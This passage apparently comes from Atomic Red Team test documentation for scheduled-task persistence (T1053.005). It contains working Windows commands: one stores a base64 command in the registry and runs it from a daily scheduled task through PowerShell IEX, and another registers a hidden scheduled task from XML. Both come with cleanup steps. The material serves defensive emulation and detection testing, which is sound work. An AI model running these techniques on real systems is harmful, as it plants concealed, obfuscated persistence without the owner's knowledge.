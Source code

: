 
#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyAxMjcuMC4wLjE= /f
schtasks.exe /Create /F /TN "ATOMIC-T1053.005" /TR "cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\SOFTWARE\\ATOMIC-T1053.005).test)))" /sc daily /st #{time}
```

#### Cleanup Commands:
```cmd
schtasks /delete /tn "ATOMIC-T1053.005" /F >nul 2>&1
reg delete HKCU\SOFTWARE\ATOMIC-T1053.005 /F >nul 2>&1
```





<br/>
<br/>

## Atomic Test #8 - Import XML Schedule Task with Hidden Attribute
Create an scheduled task that executes calc.exe after user login from XML that contains hidden setting attribute. 
This technique was seen several times in tricbot malware and also with the targetted attack campaigne the industroyer2.

**Supported Platforms:** Windows


**auto_generated_guid:** cd925593-fbb4-486d-8def-16cbdf944bf4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xml_path | path of vbs to use when creating masquerading files | path | PathToAtomicsFolder&#92;T1053.005&#92;src&#92;T1053_05_SCTASK_HIDDEN_ATTRIB.xml|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$xml = [System.IO.File]::ReadAllText("#{xml_path}")
Invoke-CimMethod -ClassName PS_ScheduledTask -NameSpace "Root\Microsoft\Windows\TaskScheduler" -MethodName "RegisterByXml" -Arguments @{ Force = $true; Xml =$xml; }
```

#### Cleanup Commands:
```powershell
Unregister-ScheduledTask -TaskName "atomic red team" -confirm:$false >$null 2>&1
```
